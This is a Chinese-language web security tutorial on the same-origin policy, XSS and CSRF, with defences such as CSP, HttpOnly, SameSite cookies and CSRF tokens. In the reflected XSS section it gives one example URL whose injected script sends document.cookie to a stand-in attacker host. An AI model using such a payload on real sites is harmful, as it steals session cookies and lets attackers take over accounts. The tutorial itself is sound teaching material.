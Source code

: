 # 浏览器安全

## 同源策略

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。

```js
http://store.company.com/dir/page.html

http://store.company.com/dir2/other.html // 同源，路径不同
https://store.company.com/secure.html // 不同源，协议不同
http://news.company.com/dir/other.html  // 不同源，域名不同
http://store.company.com:81/dir/etc.html // 不同源，端口不同
```

同源体现在三个方面

* DOM 层面。只有同源的页面才能通过 window.opener 拿到上一个页面的 window 对象去修改 dom
* 数据层面。Cookie、IndexDB、LocalStorage 这些数据在同源的页面下才能访问
* 网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

## 跨站脚本攻击（XSS）

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

### XSS 可以做什么

* 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
* 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
* 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
* 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。

### XSS 如何注入

* 存储型 XSS 攻击

首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；然后用户向网站请求包含了恶意 JavaScript 脚本的页面；当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

例如，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞。起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一个引入了外部 js 代码的 script 标签。喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中。然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行，这样就可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器。黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号，并利用用户账号进行一些恶意操作。

* 反射型 XSS 攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接。Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

例如，某个网站的错误页面是简单获取 url 参数中的 msg 参数然后插入错误页面中显示。那么黑客就可以诱使用户点击一个联机：`https//somesite.com/error.html?msg=<script>var+i=newImage;i.src="http://attacker.com"%2bdocument.cookie;</script>`。这样用户点击后后面的恶意代码就会执行，会生成一个图片，然后请求黑客的网址将 cookie 上传至黑客的服务器。

* 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS

1. 服务器对输入脚本进行过滤或转码。将请求提交内容中的 js 代码过滤掉，可以进行转义。
2. CSP（Content-Security-Policy 内容安全策略）。
    * 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
    * 禁止向第三方域提交数据，这样用户数据也不会外泄；
    * 禁止执行内联脚本和未授权的脚本；
    * 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。
3. 使用 HttpOnly 属性。HttpOnly 是服务器通过 HTTP 响应头来设置的。set-cookie 属性值最后使用 HttpOnly 来标记该 Cookie。使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。

## CSRF

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

### CSRF 攻击方式

1. 自动发起 Get 请求。假设网站有一个转账的接口，打开黑客的链接后，将请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的钱就被转移到黑客的账户上去了。
2. 自动发起 POST 请求。黑客在页面中创建一个隐藏的表单，用户打开黑客链接后，隐藏的表单会自动执行提交执行转账操作。
3. 引诱用户点击链接。链接的地址其实是调用转账接口，点击后就会执行转账操作。

和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。

### 为什么黑客的网站和要攻击的网站不同域，请求也可以获取到 cookie？

虽然黑客网站和目标网站域名不同，是跨域的，但是 img 标签的 src 可以加载不同域名的数据发起 get 请求，并携带对应域名的 cookie，而表单一般用于提交数据，可以跨域发请求，只是拿不到响应而已，所以浏览器不限制利用表单发送跨域请求。在不同域名页面下使用 img 和 表单请求携带的 cookie 被称为第三方 cookie。

### 如何防止 CSRF

1. 充分利用好 Cookie 的 SameSite 属性。在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项。SameSite 选项通常有 Strict、Lax 和 None 三个值。
    * Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
    * Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
    * 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。
2. 验证请求的来源站点。Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性。Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。
3. CSRF Token。
    1. 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。
    2. 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。
